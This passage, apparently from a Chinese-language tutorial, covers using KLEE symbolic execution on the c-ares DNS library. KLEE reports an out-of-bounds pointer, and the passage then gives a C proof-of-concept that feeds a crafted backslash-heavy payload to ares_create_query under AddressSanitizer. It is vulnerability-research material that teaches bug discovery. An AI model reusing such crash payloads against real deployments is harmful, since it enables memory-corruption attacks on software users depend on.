   可以看到KLEE 提示`out of bound pointer` 找到一处越界.接下来使用ktest-tool 查看Payload :

![](pic9/pic5.png)

  最后,我们来复现Payload 是否有效,代码如下:

```c

#include <ares.h>
#include <nameser.h>

#define PAYLOAD "\\.\x00\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\"

int main(int argc,char** argv) {
        unsigned char* output_buffer;
        int output_buflen;

        ares_create_query(PAYLOAD, ns_c_in, ns_t_a, 0x1234, 0, &output_buffer, &output_buflen, 0);

        return 0;
}

```

  启用ASAN 编译:

```shell

MacBook-Pro-2:c-ares root$ make CFLAGS="-fsanitize=address"
MacBook-Pro-2:c-ares root$ clang -fsanitize=address valid.c libcares_la-*.o  -o valid

```

  验证结果如下:
